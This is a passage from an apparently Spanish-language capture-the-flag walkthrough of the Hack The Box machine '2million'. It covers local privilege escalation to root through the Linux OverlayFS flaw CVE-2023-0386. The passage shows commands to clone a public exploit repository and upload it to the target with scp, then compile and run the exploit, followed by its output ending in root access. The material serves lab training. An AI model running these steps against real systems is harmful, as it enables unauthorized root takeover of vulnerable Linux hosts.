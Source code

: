 Lo que nos toca hacer ahora es clonar algun script que nos permita vulnerar 

```
https://github.com/xkaneiki/CVE-2023-0386
```

Usare este repositorio, lo clonare y lo comprimire 

```
git clone https://github.com/xkaneiki/CVE-2023-0386

zip -r cve.zip CVE-2023-0386/
```
Ahora lo subiremos usando scp 

```
scp cve.zip admin@2million.htb:/tmp
```
Dentro de la máquina como usario admin entremos al directorio /tmp y lo descomprimimos


```
cd /tmp 

unzip cve.zip
```
Ahora seguiremos los pasos que nos dice el README en el github del exploit, nos meteremos y usaremos make all 

```
admin@2million:/tmp$ cd CVE-2023-0386/
admin@2million:/tmp/CVE-2023-0386$ make all

```
Después ejecutaremos el exploit en segundo plano con el siguiente comando 

```
admin@2million:/tmp/CVE-2023-0386$ ./fuse ./ovlcap/lower ./gc &
[1] 23724
admin@2million:/tmp/CVE-2023-0386$ [+] len of gc: 0x3ee0

```
Ahora usaremos el exploit 

```
./exp
uid:1000 gid:1000
[+] mount success
[+] readdir
[+] getattr_callback
/file
total 8
drwxrwxr-x 1 root   root     4096 Mar 16 02:36 .
drwxr-xr-x 6 root   root     4096 Mar 16 02:36 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] open_callback
/file
[+] read buf callback
offset 0
size 16384
path /file
[+] open_callback
/file
[+] open_callback
/file
[+] ioctl callback
path /file
cmd 0x80086601
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
```